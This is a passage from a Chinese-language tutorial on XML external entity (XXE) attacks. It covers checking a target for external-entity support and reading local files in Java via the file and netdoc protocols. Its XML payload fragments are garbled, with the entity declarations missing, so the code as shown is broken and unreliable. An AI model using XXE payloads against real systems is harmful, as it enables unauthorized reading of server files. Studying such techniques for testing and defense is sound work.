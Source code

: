 ## 1.3、读取文件

在进行利用之前应该先测试下，目标环境有无回显，是否支持外部实体。

```php
检查是否支持外部实体
<?xml version="1.0" encoding="UTF-8"?> 
 
%foo;
]> 
查看你的服务器是否有请求
```

### 1.3.1、不同平台支持的协议

注意：jdk1.8开始不再支持gopher协议

![image.png](assets/1700812438-659bf9cf793c5d8faada79146a835a7c.png)

### 1.3.2、有回显

#### 1.3.2.1、读取本地文件

1、Java环境下读取文件

netdoc协议和file协议的作用是一样的，都可以读取文件。

```php
<?xml version="1.0" encoding="UTF-8"?> 

 
]> 
<user><username>&xxe;</username><password>admin</password></user>
```
